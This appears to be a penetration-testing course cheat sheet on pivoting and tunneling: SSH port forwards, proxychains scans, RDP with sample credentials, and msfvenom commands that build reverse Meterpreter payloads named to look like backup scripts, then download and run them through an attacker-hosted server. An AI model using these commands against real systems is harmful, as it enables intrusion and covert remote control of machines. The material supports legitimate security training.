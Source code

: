 | Command                                                      | Description                                                                                       |
|--------------------------------------------------------------|---------------------------------------------------------------------------------------------------|
| `ifconfig`                                                   | Linux-based command that displays all current network configurations of a system.                |
| `ipconfig`                                                   | Windows-based command that displays all system network configurations.                           |
| `netstat -r`                                                 | Command used to display the routing table for all IPv4-based protocols.                           |
| `nmap -sT -p22,3306 <IPaddressofTarget>`                     | Nmap command used to scan a target for open ports allowing SSH or MySQL connections.              |
| `ssh -L 1234:localhost:3306 Ubuntu@<IPaddressofTarget>`       | SSH command used to create an SSH tunnel from a local machine on local port 1234 to a remote target using port 3306. |
| `netstat -antp \| grep 1234`                                  | Netstat option used to display network connections associated with a tunnel created. Using grep to filter based on local port 1234. |
| `nmap -v -sV -p1234 localhost`                               | Nmap command used to scan a host through a connection that has been made on local port 1234.      |
| `ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@<IPaddressofTarget>` | SSH command that instructs the ssh client to request the SSH server forward all data via port 1234 to localhost:3306. |
| `ssh -D 9050 ubuntu@<IPaddressofTarget>`                     | SSH command used to perform a dynamic port forward on port 9050 and establishes an SSH tunnel with the target. This is part of setting up a SOCKS proxy. |
| `tail -4 /etc/proxychains.conf`                               | Linux-based command used to display the last 4 lines of /etc/proxychains.conf. Can be used to ensure SOCKS configurations are in place. |
| `proxychains nmap -v -sn 172.16.5.1-200`                     | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range 172.16.5.1-200 with increased verbosity (-v) disabling ping scan (-sn). |
| `proxychains msfconsole`                                     | Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy. |
| `msf6 > search rdp_scanner`                                  | Metasploit search that attempts to find a module called rdp_scanner.                              |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123` | Used to connect to a target using RDP and a set of credentials using Proxychains. This will send all traffic through a SOCKS proxy. |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080` | Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following lhost= on local port 8080 (LPORT=8080). Payload will take the form of an executable file called backupscript.exe. |
| `msf6 > use exploit/multi/handler`                            | Used to select the multi-handler exploit module in Metasploit.                                    |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`         | Uses secure copy protocol (scp) to transfer the file backupscript.exe to the specified host and places it in the Ubuntu user's home directory (:~/). |
| `python3 -m http.server 8123`                                | Uses Python3 to start a simple HTTP server listening on port 8123. Can be used to retrieve files from a host. |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` | PowerShell command used to download a file called backupscript.exe from a webserver (172.16.5.129:8123) and then save the file to the location specified after -OutFile. |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN` | SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port 8080 on the attack host to port 80 on the target. |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080` | Uses msfvenom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after LHOST= on port 8080 (LPORT=8080). Payload takes the form of an executable elf file called backupjob. |
| `msf6 > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23` | Metasploit command that runs a ping sweep module against the specified network segment (RHOSTS=172.16.5.0/23). |
| `for i in {1..254} ;do (ping -c 1 172.16.5.$i \| grep "bytes from" &) ;done` | For loop used on a Linux-based system to discover devices in a specified network segment. |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 \| find "Reply"` | For loop used on a Windows-based system to discover devices in a specified network segment. |
